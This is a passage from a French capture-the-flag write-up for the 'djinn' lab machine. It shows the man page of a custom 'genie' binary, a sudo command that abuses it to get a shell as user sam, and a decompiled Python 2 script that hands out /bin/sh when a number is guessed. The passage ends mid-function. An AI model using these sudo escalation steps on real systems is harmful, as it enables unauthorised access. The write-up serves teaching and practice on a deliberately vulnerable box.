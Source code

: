 ```
       -p, --shell

              Well who doesn't love those. You can get shell. Ex: -p "/bin/sh"

       -e, --exec

              Execute command on someone else computer is just too damn fun, but this comes with some restrictions.

       -cmd

              You know sometime all you new is a damn CMD, windows I love you.

SEE ALSO
       mzfr.github.io

BUGS
       There are shit loads of bug in this program, it's all about finding one.

AUTHOR
       mzfr

1.0                                        11 November 2019                                        man(8)
```

Et effectivement c'était ce qui était attendu :

```bash
nitish@djinn:/tmp$ sudo -u sam /usr/bin/genie -cmd a
my man!!
$ id
uid=1000(sam) gid=1000(sam) groups=1000(sam),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare)
```

Dans le dossier de l'utilisateur on trouve un fichier caché qui est du code Python 2 compilé :

`.pyc: python 2.7 byte-compiled`

Comme sur un précédent CTF j'utilise une image Docker avec Python 3.6 pour y lancer `uncompyle6` car ce désassembleur Python a du mal avec les versions plus récentes. J'obtiens le code désassemblé suivant :

```python
from getpass import getuser
from os import system
from random import randint

def naughtyboi():
    print 'Working on it!! '


def guessit():
    num = randint(1, 101)
    print 'Choose a number between 1 to 100: '
    s = input('Enter your number: ')
    if s == num:
        system('/bin/sh')
    else:
        print 'Better Luck next time'


def readfiles():
    user = getuser()
    path = input('Enter the full of the file to read: ')
```